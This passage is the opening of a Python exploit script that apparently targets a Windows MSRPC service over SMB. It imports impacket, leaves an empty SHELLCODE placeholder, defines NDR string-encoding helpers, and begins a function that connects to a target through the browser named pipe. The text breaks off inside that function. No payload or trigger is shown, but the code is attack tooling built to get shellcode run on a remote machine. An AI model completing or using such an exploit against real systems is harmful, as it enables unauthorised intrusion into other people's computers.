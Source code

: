 # Author: 0x4E0x650x6F
##################################################################################

import sys
from struct import pack
from string import ascii_uppercase
from random import randint
from random import choice
from impacket import uuid
from impacket import dcerpc
from impacket.dcerpc.v5 import transport
from impacket.structure import Structure


SHELLCODE = ()

"""
NDR Type build functions
This will be used to 'format' the string 
in a way that is compatible with what Windows MSRPC
service expects
"""

def ndr_long(value):
    return pack("<L", value)


def ndr_aling(value):
    return "\x00" * ((4 - (len(value) & 3)) & 3)


def ndr_uwstring(value):
    value = value + "\x00"
    rvalue = ndr_long(randint(1, 0xffffffff))
    length = ndr_long(len(value))
    utf16_value = value.encode("utf-16le")
    aligned_utf16_value = ndr_aling(utf16_value)
    
    return rvalue + length + ndr_long(0) + length + utf16_value + aligned_utf16_value


def ndr_wstring(value):
    value = value + "\x00"
    length = ndr_long(len(value))
    utf16_value = value.encode("utf-16le")
    aligned_utf16_value = ndr_aling(utf16_value)
    
    return length + ndr_long(0) + length + utf16_value + aligned_utf16_value


def ndr_wstring_prebuilt(value):
    if len(value) % 2 > 0:
        value = value + "\x00"
        
    length = len(value) / 2
    llength = ndr_long(length)
    return llength + ndr_long(0) + llength + value + ndr_aling(value)


def rand_text_alpha(length):
    return ''.join(choice(ascii_uppercase) for _ in range(length))


def to_unicode(value):
    return value.encode("utf-16le")


def connect(target):
    trans = transport.DCERPCTransportFactory('ncacn_np:%s[\\pipe\\browser]' % target)
    try:
        trans.connect()
        print "[*]\tConnected to %s " % target